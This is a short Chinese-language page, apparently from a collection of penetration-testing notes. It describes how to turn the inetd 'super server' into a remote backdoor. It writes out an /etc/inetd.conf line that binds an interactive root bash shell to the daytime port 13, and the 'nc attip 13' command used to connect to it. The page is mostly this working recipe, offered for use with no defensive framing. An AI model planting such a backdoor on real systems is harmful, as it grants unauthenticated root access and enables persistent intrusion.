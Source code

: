 ```yaml
---
title: inetd 远程后门
id: zhfly3505
---
```


## inetd 远程后门

inetd，也叫作“超级服务器”，就是监视一些网络请求的守护进程，其根据网络请求来调用相应的服务进程来处理连接请求。inetd.conf则是inetd的配置文件。inetd.conf文件告诉inetd监听哪些网络端口，为每个端口启动哪个服务。位置是/etc/inetd.conf 配置格式：[servicename] [socktype] [proto] [flags] [user] [server_path] [args] 在配置文件下写入以下内容。daytime stream tcp nowait root /bin/bash bash -i

daytime服务（13端口） 套接字类型 协议类型 不等待 用户组 提供服务的程序 daytime stream tcp nowait root /bin/bash bash -i

![image](../img/6f0009f888e5f0e1616f47ad74f26b97.png)

这样配置好了以后利用nc attip 13

![image](../img/a3e72c6e22958f81bba3b676fda99d42.png)